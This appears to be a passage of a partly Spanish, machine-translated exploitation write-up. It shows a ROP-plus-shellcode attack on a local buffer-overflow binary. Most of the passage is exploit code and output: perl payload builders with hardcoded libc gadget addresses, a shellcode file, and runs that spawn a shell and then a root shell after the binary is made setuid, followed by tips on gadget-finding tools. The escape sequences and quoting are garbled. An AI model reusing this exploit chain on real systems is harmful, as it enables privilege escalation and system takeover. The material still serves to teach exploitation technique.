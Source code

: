 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
0xf7fd6c30 int 0x80 ; ret

Parte 2 (stdin) \[placed in 0xffffd2a4\]:  
0xf7eb9240  
0xf7e05fdb  
0xffffd000  
0x00010000  
0x00000007  
0xf7de9be7  
0xffffd200  
0xf7dde182 call eax

Well, we’re ready to explode  
```Primera parte:  
"`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xa4xd2xffxff" . "x30x6cxfdxf7"'`"```

Part Two:  
perl -e ‘print “x40x92xebxf7” . “xdbx5fxe0xf7” . “x00xd0xffxff” . “x00x00x01x00” . “x07x00x00x00” . “xe7x9bxdexf7” . “x00xd2xffxff” . “x82xe1xddxf7″‘

Exploitation:  
`$ perl -e 'print "x40x92xebxf7" . "xdbx5fxe0xf7" . "x00xd0xffxff" . "x00x00x01x00" . "x07x00x00x00" . "xe7x9bxdexf7" . "x00xd2xffxff" . "x82xe1xddxf7"' > a.txt`

$ (cat a.txt ; cat) | /home/arget/vuln “\`cat sc.o“perl -e ‘print “A”x(140-33) . “xd0xbbxfdxf7” . “xb5x6cxfdxf7” . “xb6x6cxfdxf7” . “x03x1exe0xf7” . “xa4xd2xffxff” . “x30x6cxfdxf7″‘\`”  
1���1�̀1�Ph//shh/bin��PS���  
1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAл���l���l�� ������0l��  
whoami  
arget

\### Oops ###

$ sudo chown root:root vuln

$ sudo chmod u+s vuln

$ (cat a.txt ; cat) | /home/arget/vuln “\`cat sc.o“perl -e ‘print “A”x(140-33) . “xd0xbbxfdxf7” . “xb5x6cxfdxf7” . “xb6x6cxfdxf7” . “x03x1exe0xf7” . “xa4xd2xffxff” . “x30x6cxfdxf7″‘\`”  
1���1�̀1�Ph//shh/bin��PS���  
1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAл���l���l�� ������0l��  
whoami  
root

What a beauty.  
If the shell prompt does not appear is because it writes and read through the some `cat`. This might be a solution for the CTF previous post. While this is not exactly a pure ret2libc because we use a shellcode (this is a ROP + shellcode), so my solution below is also interesting.

Obtaining gadgets is not always complete with a single tool, it is often advisable to seek gadgets using various tools, being my favorite `**ROPgadget**`, `Ropper`, `Radare`, `msfelfscan` (`msfpescan`).Additionally, in Windows, you can serve `OllyDbg`.

I am aware that absolutely all the gadgets I’ve used belong to libraries, which is not recommended because it does little portable, and if it is activated ASLR not work while that the use of binary gadgets work even with ASLR, but only if the binary is not-foot. But this was just an example to demonstrate the ROP + shellcode technique, besides this binary is too small to find all the gadgets that may become necessary.

```